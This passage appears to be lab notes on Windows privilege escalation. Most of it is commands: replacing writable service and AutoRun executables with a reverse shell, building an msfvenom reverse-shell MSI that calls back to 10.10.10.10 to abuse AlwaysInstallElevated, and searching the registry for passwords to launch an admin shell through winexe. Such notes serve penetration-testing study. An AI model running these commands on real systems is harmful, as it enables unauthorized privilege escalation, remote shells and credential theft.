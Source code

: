 Copy the reverse.exe executable you created and replace the filepermservice.exe with it:
`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`

Start the service
`net start filepermsvc`

# Registry
## AutoRuns

Check autorun executables on system:
`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:

`C:\PrivEsc\accesschk.exe /accepteula -qwvu "C:\Program Files\Autorun Program\program.exe"`

Putting shell in the PATH
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`

So if we connect again using rdp we will be able to get the reverse shell.

## AlwaysInstalledElevated

Query the registry for AlwaysInstallElevated keys:
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Note that both keys are set to 1 (0x1).

Generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`

To get the shell:
`msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

# Passwords
## Registry
The registry can be searched for keys and values that contain the word "password":
`reg query HKLM /f password /t REG_SZ /s`

If you want to save some time, query this specific key to find admin AutoLogon credentials:

`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`

On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):

`winexe -U 'admin%password' //MACHINE_IP cmd.exe`


## Saved Creds
List any saved credentials:
